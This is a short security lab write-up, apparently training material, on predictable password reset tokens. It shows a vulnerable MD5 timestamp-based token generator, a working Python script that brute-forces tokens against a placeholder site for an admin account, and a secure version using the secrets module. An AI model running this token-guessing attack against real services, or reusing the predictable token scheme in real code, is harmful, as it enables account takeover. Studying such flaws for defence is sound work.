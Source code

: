 ### Lab Scenario: Password Reset Flaw
**Vulnerability**: Predictable reset tokens and race conditions

#### Flawed Implementation Analysis
```python
# Vulnerable password reset token generation
import time
import hashlib

def generate_reset_token(email):
    # Predictable: uses timestamp + email
    timestamp = str(int(time.time()))
    token = hashlib.md5((email + timestamp).encode()).hexdigest()
    return token

# This can be predicted and exploited!
```

#### Attack Simulation
```python
import time
import hashlib
import requests

# Predict reset tokens for target user
target_email = "admin@company.com"
current_time = int(time.time())

# Try tokens generated around current time
for time_offset in range(-300, 301):  # ±5 minutes
    test_time = current_time + time_offset
    predicted_token = hashlib.md5((target_email + str(test_time)).encode()).hexdigest()
    
    # Test if token is valid
    response = requests.get(f"http://target.com/reset?token={predicted_token}")
    if "Reset Password" in response.text:
        print(f"Valid token found: {predicted_token}")
        break
```

#### Secure Implementation
```python
import secrets
import hashlib
import time

def generate_secure_reset_token():
    # Cryptographically secure random token
    random_bytes = secrets.token_bytes(32)
    token = hashlib.sha256(random_bytes).hexdigest()
    
    # Store with expiration time in database
    expiry = int(time.time()) + 3600  # 1 hour
    return token, expiry
```
